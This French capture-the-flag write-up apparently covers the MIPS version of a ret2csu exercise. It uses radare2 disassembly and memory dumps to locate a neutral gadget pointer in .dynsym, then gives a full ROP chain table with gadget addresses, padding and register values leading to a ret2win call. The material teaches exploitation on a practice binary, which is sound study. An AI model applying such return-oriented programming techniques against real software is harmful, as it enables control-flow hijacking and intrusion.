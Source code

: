 
Comme dans la version x64 du challenge on doit trouver une adresse à charger dans s0 qui contiennt une gadget neutre.


On a en particulier cette référence :

    ┌ 8: sym.__libc_csu_fini ();
    │           0x004009e4      0800e003       jr ra
    └           0x004009e8      00000000       nop
                0x004009ec      00000000       nop

Cette fonction réservée qui implicitement ne fait rien est référencées dans la section .dynsym

    [0x004003c0]> pxw 48 @sym..dynsym
    0x004003cc  0x00000000 0x00000000 0x00000000 0x00000000  ................
    0x004003dc  0x000000bf 0x004009e4 0x00000008 0x000d0012  ......@.........
                           ici
    0x004003ec  0x0000001c 0x00000001 0x00000000 0xfff10013  ................

La commande d'analyse des reférences nous précise :

    [0x004003c0]> axt 0x004009e4
    (nofunc) 0x4003e0 [UNKNOWN] invalid

On retient donc .dynsym+0x14 comme addresse à charger dans s0.

### La chaine de rop

| ROP entry | gadget | comment |
| ----------- | ------- | ----- |
| 0x004009c0 | gadget2 | charge les registres
| 0xdeadbeef | junk | Pour atteindre sp+0x1c
| 0xdeadbeef | junk |  
| 0xdeadbeef | junk |  
| 0xdeadbeef | junk |  
| 0xdeadbeef | junk |  
| 0xdeadbeef | junk |  
| 0xdeadbeef | junk |  
| 0x4003e0 | .synsym+20 | pour s0 puis t9
| 1 | 1 | pour s1 
| 2 | 2 | pour s2 en vue de s2==s1+1
| 0xdeadbeef | 0xdeadbeef | pour s3 puis a0
| 0xcafebabe | 0xcafebabe | pour s4 puis a1
| 0xcafebabe | 0xcafebabe | pour s5 puis a2
| 0x004009a0 | gadget1  | Affactation de a0,a1,a2 et call
| -----------| parametres de gadget1| |
| 0xdeadbeef | junk |   
| ... | ... | 12 fois |
| 0x00400a5c | ret2win | Appel final   
